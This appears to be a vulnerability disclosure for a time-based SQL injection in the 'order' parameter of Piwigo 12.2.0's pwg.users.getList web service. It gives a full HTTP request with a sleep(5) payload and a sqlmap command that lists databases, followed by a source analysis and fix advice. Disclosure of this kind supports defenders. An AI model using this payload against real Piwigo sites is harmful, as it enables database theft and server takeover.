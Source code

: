 ### Vulnerability details


**vulnerability type:**SQL injection 
**vulnerability versions:** piwigo 12.2.0
**vulnerability Url:** [http://10.92.66.148/piwigo/ws.php?format=json&method=pwg.users.getList](http://10.92.66.148/piwigo/ws.php?format=json&method=pwg.users.getList)
**SQL injected fields exist**：**order**
### verification procedure 


log on to the system and go user-Management-user list 
![image.png](https://cdn.nlark.com/yuque/0/2022/png/496192/1645694349612-48bd1e16-2a86-4765-8660-cd49cbe5da63.png#clientId=u15ad27cc-f5e1-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=657&id=u1d142fa1&margin=%5Bobject%20Object%5D&name=image.png&originHeight=657&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=88030&status=done&style=none&taskId=u09ce7338-8d20-4cc9-9c9e-b96e87ebb61&title=&width=1920)
Vulnerability Data：
```java
POST /piwigo/ws.php?format=json&method=pwg.users.getList HTTP/1.1
Host: 10.92.66.148
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 101
Origin: http://10.92.66.148
Connection: close
Referer: http://10.92.66.148/piwigo/admin.php?page=user_list
Cookie: pwg_id=pkl5bk0ifq21ss8nb2j126u55j; pwg_display_thumbnail=no_display_thumbnail; pwg_album_manager_view=tile; pwg_plugin_manager_view=classic; pwg_user_manager_view=line; PHPSESSID=2a8da2cbc685d8412cbf8e64

display=all&order=(select*from(select+sleep(5)union/**/select+1)a)&page=0&per_page=5&exclude%5B%5D=2
```
Modify the exclude[] field and use Sleep(5) to execute SQL statements with a delay of 5 seconds. As shown in the following figure, data is returned with a delay of 5 seconds, proving that SQL injection exists:
![image.png](https://cdn.nlark.com/yuque/0/2022/png/496192/1645695083763-ee8c8fc9-896d-475c-8418-9bfddb38f776.png#clientId=ub56e8d03-d575-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=963&id=u969d1d1f&margin=%5Bobject%20Object%5D&name=image.png&originHeight=963&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=196586&status=done&style=none&taskId=ua7df5d8f-7e92-4847-9b5f-8cc46deac78&title=&width=1920)
Use SQLmap to verify vulnerabilities. Data packets are marked as injection points: 
```java
POST /piwigo/ws.php?format=json&method=pwg.users.getList HTTP/1.1
Host: 10.92.66.148
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 55
Origin: http://10.92.66.148
Connection: close
Referer: http://10.92.66.148/piwigo/admin.php?page=user_list
Cookie: pwg_id=pkl5bk0ifq21ss8nb2j126u55j; pwg_display_thumbnail=no_display_thumbnail; pwg_album_manager_view=tile; pwg_plugin_manager_view=classic; pwg_user_manager_view=line; PHPSESSID=2a8da2cbc685d8412cbf8e64

display=all&order=*&page=0&per_page=5&exclude%5B%5D=2
```
Execution Parameters 
**py -3 sqlmap.py -r text.txt  --batch --dbs**
![image.png](https://cdn.nlark.com/yuque/0/2022/png/496192/1645694916505-5ebb9e56-d114-432a-841f-90d38407fdcb.png#clientId=ub56e8d03-d575-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=670&id=u1b1c00f0&margin=%5Bobject%20Object%5D&name=image.png&originHeight=670&originWidth=1712&originalType=binary&ratio=1&rotation=0&showTitle=false&size=79192&status=done&style=none&taskId=u08c49590-014d-4335-a043-56a830e0d0d&title=&width=1712)
You can see that the database name has been read, so you can Dump sensitive data directly from the database. Furthermore, if the database has DBA privileges, an attacker can take over the server.
​

### Vulnerability analysis


By analyzing the PHP files imported from ws.php and the parameters in the packet, you can trace it back to **pwg.users.php**
![image.png](https://cdn.nlark.com/yuque/0/2022/png/496192/1645696554932-7f0ac51d-45fb-4fdb-8b7e-5c21bfec87b5.png#clientId=u4414a1b4-c4cf-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=847&id=u748295a8&margin=%5Bobject%20Object%5D&name=image.png&originHeight=847&originWidth=1835&originalType=binary&ratio=1&rotation=0&showTitle=false&size=174810&status=done&style=none&taskId=u5e6077ec-ab55-4b40-9207-b691eb9fd3e&title=&width=1835)

pwg.users.php is located in **\include\ws_functions\pwg.users.php**, and the order parameter is inserted into the SQL statement to join the query. And the SQL statement does not verify the validity of the passed parameters, resulting in SQL injection.
![image.png](https://cdn.nlark.com/yuque/0/2022/png/496192/1645696679194-a2ac5790-faef-4260-a87a-cc7f9d7840d9.png#clientId=u4414a1b4-c4cf-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=525&id=u7e91d845&margin=%5Bobject%20Object%5D&name=image.png&originHeight=525&originWidth=1747&originalType=binary&ratio=1&rotation=0&showTitle=false&size=101923&status=done&style=none&taskId=ua6550307-cc5f-4ffb-9512-092256505c3&title=&width=1747)


### Vulnerability Fix
​

1. Precompile SQL statements in query parameters and filter special characters such as single and double quotation marks.
2. Perform a global check on SQL injection to prevent SQL injection.
​

